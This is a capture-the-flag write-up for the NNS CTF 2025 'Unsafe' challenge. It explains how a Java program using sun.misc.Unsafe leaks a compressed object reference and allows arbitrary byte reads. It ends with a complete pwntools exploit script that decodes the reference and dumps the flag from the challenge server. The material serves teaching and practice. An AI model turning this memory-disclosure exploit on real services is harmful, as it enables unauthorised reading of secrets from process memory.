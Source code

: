 # Unsafe – NNS CTF 2025 (PWN)

## Challenge description
> *"My application was written in a modern- and memory safe language known as Java. It contains my secret, can you read it?"*  

We’re given a Java program that uses `sun.misc.Unsafe` to poke at raw memory. Despite being in Java, it’s essentially a memory disclosure challenge.


---

## Vulnerable code

```java
public static void main(String[] args) {
    var flag = System.getenv("FLAG");
    if (flag == null) {
        flag = "NNS{fake_flag}";
    }

    var safe = getSafe();

    Object[] arr = new Object[]{flag};
    var string = Long.toHexString(safe.getLong(arr, 16));
    System.out.println("Here you go: " + string);

    var scanner = new Scanner(System.in);
    while (true) {
        try {
            System.out.print("Enter an address to read: ");
            var address = Long.valueOf(scanner.nextLine(), 16);
            var out = safe.getByte(address);
            System.out.printf("You read: %02X\n", out);
        } catch (NumberFormatException ignored) {
            System.err.println("Bad");
            System.exit(1);
        }
    }
}
```
Key points:

- The `flag` string is stored in an array.
- `Unsafe.getLong(arr, 16)` leaks a **compressed reference (narrow oop)** to the flag object.
- We can then enter arbitrary memory addresses to read single bytes with `getByte()`.    

This essentially gives us a memory dump primitive.

---

## Vulnerability

Java normally hides memory addresses, but here:

1. `safe.getLong(arr, 16)` leaks the reference to `flag`.
    
    - HotSpot JVM stores object references as **compressed oops** (offsets relative to a base, shifted left by 3).
        
    - We need to decode them to get native addresses.
        
2. We can use `Unsafe.getByte(addr)` to read arbitrary memory.
    
3. By walking the object layout of a Java `String`, we eventually reach its character array and dump the flag bytes.
    

So although the code looks “safe”, this is basically raw memory exploitation inside the JVM.

---

## Exploit

We connect with pwntools, decode the leaked compressed oop, and walk memory until we reach the flag:
```python
#!/usr/bin/env python3
from pwn import *
import re

HOST = "8f6372c5-0220-4e5a-998f-8beebfd6692e.chall.nnsc.tf"
PORT = 41337

r = remote(HOST, PORT, ssl=True)

# Convert compressed oop to native pointer
def native(addr):
    return (addr & 0xFFFFFFFF) << 3

# Leak compressed oop
r.recvuntil(b"Here you go: ")
addr = int(r.recvline().strip(), 16)
log.info(f"Compressed reference: {hex(addr)}")

nb = native(addr)
log.info(f"Native object base: {hex(nb)}")

# Trial and error showed the value pointer lives at offset +20
val_start = nb + 20
val_ptr = b""
for i in range(4):
    r.recvuntil(b"Enter an address to read: ")
    r.sendline(hex(val_start + i)[2:].encode())
    r.recvuntil(b"You read: ")
    val_ptr = r.recvline().strip() + val_ptr

val_ptr = int(val_ptr, 16)
log.info(f"Flag array (compressed): {hex(val_ptr)}")

val_ptr = native(val_ptr) + 16
log.info(f"Flag array (native): {hex(val_ptr)}")

# Dump string contents
flag = b""
for i in range(128):
    r.recvuntil(b"Enter an address to read: ")
    r.sendline(hex(val_ptr + i)[2:].encode())
    r.recvuntil(b"You read: ")
    flag += r.recvline().strip()

flag = bytes.fromhex(flag.decode())
print(f"[+] Flag: {flag}")
```
